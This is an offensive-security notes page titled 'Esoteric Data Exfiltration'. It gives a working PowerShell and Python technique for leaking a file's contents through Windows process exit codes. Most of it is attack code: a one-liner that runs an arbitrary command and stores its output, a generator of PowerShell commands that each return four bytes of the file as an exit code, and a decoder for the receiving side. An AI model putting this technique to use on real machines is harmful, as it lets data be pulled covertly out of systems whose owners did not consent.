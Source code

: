 # Esoteric Data Exfiltration

This is a dumping for less common but still quite interesting Exfiltration methods.  These probably won't be too useful in anything but the most specific instances, but who knows, they might fit what you're looking for.

## Error Codes

We can exfiltrate arbitrary data via literally nothing but error-codes.  Here I'll walk through the stages to set up and test this for exfiltrating some file.

An error code can have a maximum length of 32 bits, or 4 bytes.  We can therefore encode 4 arbitrary bytes within the return of a windows command.

We have data stored within`$env:temp/merror.txt`  and the only parameter we need to know is it's length.  We can run an arbitrary command, store it's output in the file and find out its length by running the following:  

```powershell
$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
```

We now have to generate our commands to split up the file and return the data.  The following script will return an iterator that will yield commands to run on the remote machine, which will return error codes.

```py
def error_exfil(output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd
```

Decoding them on the other end is as simple as:

```py
def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')
```




